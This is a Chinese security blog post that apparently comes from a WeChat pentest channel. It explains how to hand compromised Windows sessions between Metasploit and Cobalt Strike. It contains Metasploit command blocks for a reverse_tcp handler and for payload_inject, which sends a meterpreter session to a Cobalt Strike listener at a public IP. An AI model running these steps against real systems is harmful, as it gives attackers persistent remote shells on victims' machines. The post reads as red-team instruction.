> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488905&idx=2&sn=6e15c9c5dd126a607e7a90100b6148d6&chksm=fc781154cb0f98421e25a36ddbb222f3378edcda5d23f329a69a253a9240f1de502a00ee983b&scene=21#wechat_redirect)

**欢迎各位添加微信号：qinchang_198231** 

 **加入安全 + 交流群 和大佬们一起交流安全技术**

MSF 和 CobaltStrike 联动

  

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC5ERJbGopDs6ynDIABQDiakOofnztUV8T9FrRBjp1FBibBlpXuraef7dHwx2PdPgXkQ2u1fIFiaP3ZBw/640?wx_fmt=gif)

目录

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC6T1Ahicengcu2gQ0PNKyQErs8Cy1Xj3DG6S05tSRd025I0Wk31utmMRRZt6kukoMx3wwsibXgv2y9Q/640?wx_fmt=png)

当获取了 CobaltStrike 类型的 session 后，想派生一个 MSF 类型的 shell

当获取了 MSF 类型的 session 后，想派生一个 CobaltStrike 类型的 shell

  

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5KIG4E7qWJo9LyhX3yxKPUvcYoLhUXlkn9gfJqa99wELGtG4qF9ic5tGAGWyibuspgibT5EmWYjOjPA/640?wx_fmt=png)

  

当获取了 CobaltStrike 类型的 session 后，想派生一个 MSF 类型的 shell

  

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5KIG4E7qWJo9LyhX3yxKPUvcYoLhUXlkn9gfJqa99wELGtG4qF9ic5tGAGWyibuspgibT5EmWYjOjPA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

**在 MSF 上的操作：**

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.10.11
set lport 4444
exploit -j
```

**![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3k30v92pTM5iaBC4FanpkFu5yBWIugNn2h8icsps0A9icEfbswTwrxbxT0Q/640?wx_fmt=png)**

**在 CobaltStrike 上的操作**

开启一个监听器 Listener，HOST 和 PORT 填我们 MSF 监听的地址 (这里需要注意，如果我们的 MSF 也是在内网中的话，需要将 MSF 的端口映射到公网地址)，这里我们将 Kali 的端口映射到了公网的 server.natappfree.cc:38615 (112.74.89.58:38615 )。

如果我们的公网 VPS 上安装了 MSF 的话 ，就不需要映射端口了。

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kNUBOKYGdeicI79VmtQUs0wJTDvHtlx1vvODWBEFqAXlbMGZiaiapo64HQ/640?wx_fmt=png)

这里一定要注意，创建的 Listener 是 foreign!

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3k1RbEP2WfAzq4I2R0FqlLOcz1IYFadiaEbnmaAnw016V4K0va1UUQaWQ/640?wx_fmt=png)

然后选中计算机，右键 ->Spawn，选择刚刚创建的监听器 MSF，然后我们的 MSF 即可看到成功获取了 meterpreter 会话

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kC2fHYJwhyG4HMTVtNFZH0BXnxrP1hBsB4SspFkTicflvCZI9VA2vMiaA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5KIG4E7qWJo9LyhX3yxKPUvcYoLhUXlkn9gfJqa99wELGtG4qF9ic5tGAGWyibuspgibT5EmWYjOjPA/640?wx_fmt=png)

  

当获取了 MSF 类型的 session 后，想派生一个 CobaltStrike 类型的 shell

  

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC5KIG4E7qWJo9LyhX3yxKPUvcYoLhUXlkn9gfJqa99wELGtG4qF9ic5tGAGWyibuspgibT5EmWYjOjPA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

**注：只有 meterpreter 类型的 session 才能派生给 CS**

我们现在获得了一个 MSF 的 meterpreter 类型的 session，session id 为 1

首先在 CobaltStrike 上开启 Listener，

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kBa7NicBrs7agwxj7quMGJbxRV4w6kxgB5WJmByCJupB5PMPBSZTpyQA/640?wx_fmt=png)

然后在 MSF 中进行如下操作

```
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set DisablePayloadHandler true   #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true
set lhost 48.94.225.140         #cobaltstrike监听的ip
set lport 14444                 #cobaltstrike监听的端口 
set session 1                   #这里是获得的session的id
exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fU1ic6ZLeymY4EuV3dKxI3kffY1cGwC6ALQX8Uy5Pt7B9yMfF39BiczbpVvsQK0EAxZTgicKhm0QjTw/640?wx_fmt=png)

这样，我们的 CobaltStrike 上就可以收到 MSF 弹回来的 session 了。

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC40tDFjiceboIhw3MooIdVI7YoDmGe7SmGxwSbONgZ3Y5Oq5tetrbX55Q1SryNH2TJicCNjREqibOqEA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFh6DjmDpKicfAIGpl3KlQu836ZrYWP3g2wg6QgtZMqfPCJxskmzMPuI26YzibgcyUXvVEqLicyXORGdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFh6DjmDpKicfAIGpl3KlQu83dmrribxWJ5Q0Culb5RicgtfQ8wYT6icvHptHmcEaQtpB1ib3Vyyscuxovg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFh6DjmDpKicfAIGpl3KlQu83ianSic5ut6IwHRl5soWKiba6Xtnt0kWMNb1Jke8afZFSt9vLpZA6rBRZQ/640?wx_fmt=png)

[内网渗透（一） | 搭建域环境](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488866&idx=2&sn=89f9ca5dec033f01e07d85352eec7387&chksm=fc7811bfcb0f98a9c2e5a73444678020b173364c402f770076580556a053f7a63af51acf3adc&scene=21#wechat_redirect)  

[内网渗透 | 域内认证之 Kerberos 协议详解](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488900&idx=3&sn=dc2689efec7757f7b432e1fb38b599d4&chksm=fc781159cb0f984f1a44668d9e77d373e4b3bfa25e5fcb1512251e699d17d2b0da55348a2210&scene=21#wechat_redirect)